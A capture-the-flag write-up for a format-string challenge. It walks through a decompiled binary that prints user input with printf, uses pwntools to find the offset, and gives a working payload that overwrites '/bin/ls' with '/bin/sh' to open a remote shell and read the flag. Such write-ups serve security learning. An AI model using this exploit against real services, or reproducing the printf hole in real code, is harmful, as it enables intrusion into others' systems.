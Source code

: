 ```yaml
---
created: 2024-06-06T23:50
updated: 2024-06-10T23:20
---
```


## Printwriter 1

> My wonderful app works both as an echo server and a file lister!
>
> Bet you can't hack it!`nc 35.240.143.82 4203`

Only the compiled `chal` file was given, after decompiling it with Ghidra, I get

```cpp
undefined8 main(void)
{
    int32_t iVar1;
    char *format;
    
    setup();
    while( true ) {
        fgets(&format, 0x70, _stdin);
        iVar1 = strncmp(&format, "quit", 4);
        if (iVar1 == 0) break;
        printf(&format);
    }
    system("/bin/ls");
    return 0;
}
```

As I can see, and `printf` has been used to print the output directly.

This challenge is in the format string attack category, which I can verify with a simple `%x`

```
$ nc 35.240.143.82 4203
%x
402004
%s
quit
```

### pwntools

I can use pwntools to quickly create our format string payload

#### offset

I first have to find the offset which can be easily done with

```python
from pwn import *

conn = remote("35.240.143.82", 4203)
context.clear(arch='amd64')


def send_payload(p):
    conn.wait(1)
    conn.sendline(p)
    return conn.recv()


print("offset =", FmtStr(execute_fmt=send_payload).offset)
```

```
[x] Opening connection to 35.240.143.82 on port 4203
[x] Opening connection to 35.240.143.82 on port 4203: Trying 35.240.143.82
[+] Opening connection to 35.240.143.82 on port 4203: Done
[*] Found format string offset: 6
offset = 6
[*] Closed connection to 35.240.143.82 port 4203
```

#### what attack to use

In the decompiler, I noticed how `/bin/ls/` is located at `0x00404058`

 ![](https://raw.githubusercontent.com/octo-kumo/images/master/image-20211221173130465.png)

If I edit `/bin/ls/` into `/bin/sh`, as they have same amount of characters, I can gain remote shell access.

Hence I will be using `fmtstr_payload` from pwntools

#### payload

```python
from pwn import *

conn = remote("35.240.143.82", 4203)

context.clear(arch='amd64')
payload = fmtstr_payload(0x6, {0x404058: b'/bin/sh'}, write_size='short')
conn.wait(1)
print("sending" + str(payload))
conn.sendline(payload)
print(conn.recv())
conn.sendline("quit")
conn.interactive()
```

We will be writing the string `/bin/sh` to address `0x404058` with offset `6`.

After sending the payload, `/bin/ls` will be changed to `/bin/sh`. This means that after I exit the loop with `quit`, it should give us shell access.

I will then switch to interactive to more easily take advantage of the shell.

```cpp
system("/bin/sh");
```

Indeed we gain remote shell access.

By running the command `ls`, I find `flag.txt`, and with `cat flag.txt`

```
cat flag.txt
flag{why_would_printf_be_able_to_write_memory????!!}
```

Flag obtained

> If you run the following you can find the message I left
>
> ```
> cd ~
> cd w
> cat README.txt
> Hello, I was here ;) ZY
> ```
